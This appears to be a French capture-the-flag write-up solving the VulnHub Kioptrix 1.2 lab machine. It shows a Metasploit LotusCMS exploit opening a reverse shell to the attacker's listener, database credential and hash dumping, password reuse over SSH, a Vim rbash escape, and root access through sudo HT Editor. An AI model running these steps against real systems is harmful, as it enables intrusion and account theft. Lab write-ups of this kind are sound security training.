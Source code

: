 ```yaml
---
title: "Solution du CTF Kioptrix: 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


Voici la solution du [CTF Kioptrix 1.2](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) qui date d'avril 2011  

CMS en mousse
-------------

```plain
Nmap scan report for 192.168.1.28
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp   open     http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Ligoat Security - Got Goat? Security ...
9874/tcp filtered unknown
```

Sur le serveur Apache se trouve un CMS que [Wappalizer](https://www.wappalyzer.com/) ne reconnaît pas mais si on se rend sur la page de login on peut lire *Proudly Powered by: LotusCMS*  

On trouve facilement un [exploit Metasploit](https://www.exploit-db.com/exploits/18565/) pour ce CMS et comme la *DisclosureDate* est au 3 mars 2011 dans le code de l'exploit ça en fait un très bon candidat...  

Au passage il y a aussi sur le site une galerie PHP dont on trouve facilement le nom (*Gallarific*) grâce à la présence du balise méta. Il existe différents exploits là aussi trouvables sur *exploit-db*.  

Grace au module Metasploit l'exploitation est aisée :  

```plain
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.28     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /                yes       URI
   VHOST    kioptrix3.com    no        HTTP server virtual host

Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0

msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.3:9999 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 3 opened (192.168.1.3:9999 -> 192.168.1.28:40897) at 2018-02-14 21:04:35 +0100
id;uname -a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

On trouve deux utilisateurs sur le système: *dreg* et *loneferret*.  

Ainsi que les identifiants SQL dans la configuration de la galerie (rien pour le CMS qui est file-based) :  

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

L'historique de l'un des utilisateurs est lisible :  

```plain
www-data@Kioptrix3:/home$ cat loneferret/.bash_history
sudo ht
exit
```

Je décide de faire un tour du côté du MySQL :  

```plain
www-data@Kioptrix3:/etc$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

Passwords faibles
-----------------

On retrouve facilement les mots de passe des utilisateurs qui sont respectivement *Mast3r* pour *dreg* et *starwars* pour *loneferret*.  

Ca tombe bien, dreg a le même mot de passe pour le système :  

```plain
$ ssh dreg@192.168.1.28
dreg@192.168.1.28's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.
dreg@Kioptrix3:~$ cd ..
rbash: cd: restricted
```

On est dans un environnement restreint (*rbash*) qui ne nous permet pas de sortir du dossier courant.  

Heureusement on peu en sortir en passant par Vim via les commandes suivantes (définir un shell différent et l'exécuter) :  

```plain
:set shell=/bin/bash
:shell
```

Mais en réalité tout celà ne sert à rien puisque le mot de passe pour *loneferret* est aussi bon :  

```plain
dreg@Kioptrix3:~$ su loneferret         
Password: 
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

C'est du gâteau
---------------

On sait que l'utilisateur peut lancer [HT Editor](http://devloop.users.sourceforge.net/index.php?article25/tutoriel-d-utilisation-de-ht-editor) en tant que root.  

*HT* est un désassembler mais aussi un éditeur de texte classique. Il suffit donc d'aller ouvrir le dossier /root puis de lire le flag (*Congrats.txt*).  

![Kioptrix3 flag opened with HT Editor](/assets/img/kioptrix/kioptrix3_ht.png)

Une erreur *Error opening terminal: xterm-256color* empêchait tout de même d'exécuter *HT*, il fallait y rémédier avec la commande *export TERM=xterm*.  


*Published February 22 2018 at 18:02*
